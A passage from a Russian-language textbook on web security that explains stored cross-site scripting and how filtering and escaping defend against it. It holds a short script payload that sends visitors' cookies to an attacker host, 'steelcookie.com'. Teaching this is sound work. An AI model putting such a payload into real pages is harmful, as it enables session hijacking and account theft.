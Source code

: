 Пусть текстовое сообщение, помещенное пользователем, содержит текстовый скрипт, помещающий на странице <<изображение>>, расположенное по некоему адресу.
\begin{verbatim}
<script>
  new Image().src = "http://steelcookie.com?c=" +
    encodeURI(document.cookie);
</script>
\end{verbatim}

Тогда браузер всех пользователей, которым показывается сообщение, при загрузке страницы отправит HTTP GET-запрос на получение файла <<изображения>> по адресу
\begin{center} \begin{verbatim}
http://steelcookie.com?auth=AJHVML43LDSL42SC6DF;
\end{verbatim} \end{center}

В результате злоумышленник получит cookie, используя который он может заходить на веб-сайт под видом пользователя.

Вставка гиперссылок является наиболее частой XSS-атакой. Иногда ссылки кодируются шестнадцатеричными числами вида \texttt{\%NN}, чтобы не вызывать сомнения у пользователя текстом ссылки.



На 2009 г. 80\% обнаруженных уязвимостей веб-сайтов являются XSS-уязвимостями.

Стандартный способ защиты от XSS-атак заключается в фильтрации, замене, экранировании символов и слов введенного текста пользователем: \texttt{<}, \texttt{>}, \texttt{/}, \texttt{\textbackslash}, \texttt{"}, \texttt{'}, \texttt{(}, \texttt{)}, \texttt{script}, \texttt{javascript} и др., а также обработка кодировок символов.
